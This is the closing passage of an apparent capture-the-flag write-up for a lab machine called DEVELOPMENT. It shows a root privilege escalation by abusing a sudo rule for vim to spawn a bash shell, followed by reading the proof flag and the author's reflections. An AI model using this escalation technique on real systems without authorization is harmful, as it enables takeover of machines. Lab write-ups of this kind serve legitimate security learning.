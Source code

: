 Running sudo -l we find that we are able to run vim and nano as any user. We can use either of these to escalate our privileges. I will use vim since I’m most familiar with that.

```bash
patrick@development:~$ sudo /usr/bin/vim -c ':!/bin/bash'

root@development:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Finally, we have root.

```bash
root@development:/root# cat proof.txt 
Congratulations on rooting DEVELOPMENT! :)
```

## Final Thoughts

This was an amazing machine for me personally. I learnt a lot from this machine. The fact that there was a “host-based intrusion detection system” made me rely on my manual enumerating skills which was a fun challenge. I also got to learn about restricted shells, since I haven’t really run into them much in machines except in the form of web sandboxes, so it was nice to learn something new from this box.
